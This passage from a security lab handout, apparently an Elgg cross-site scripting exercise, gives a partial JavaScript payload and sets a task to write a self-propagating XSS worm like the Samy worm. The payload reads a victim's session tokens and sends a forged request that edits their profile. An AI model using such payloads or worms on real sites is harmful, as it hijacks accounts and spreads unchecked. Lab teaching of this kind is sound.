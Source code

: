 \begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName=elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST",sendurl,true);
     Ajax.setRequestHeader("Host","www.xsslabelgg.com");
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

Similar to Task 4, the above code should be placed in the \texttt{"About Me"} field of Samy's
profile page, and the Text mode should be enabled before entering the above JavaScript code.


\paragraph{Questions.} Please answer the following questions:

\begin{itemize}
\item \textbf{Question 3:} Why do we need Line ? Remove this line, and repeat 
your attack. Report and explain your observation.
\end{itemize}
 



\subsection{Task 6: Writing a Self-Propagating XSS Worm}

To become a real worm, the malicious JavaScript program should be able to propagate itself.
Namely, whenever some people view an infected profile, 
not only will their profiles be modified, the worm will also be 
propagated to their profiles, further affecting others who view these newly infected profiles.
This way, the more people view the infected profiles, the faster the worm can propagate. 
This is exactly the same mechanism used by the Samy Worm: 
within just 20 hours of its October 4, 2005 release, over one million users 
were affected, making Samy one of the fastest spreading viruses of all time.
The JavaScript code that can achieve this is called 
a {\em self-propagating cross-site scripting worm}. In this task, you need to 
implement such a worm, which not only modifies the victim's profile and adds the user
``Samy'' as a friend, but also add a copy of the worm itself to the victim's profile, so the
victim is turned into an attacker.


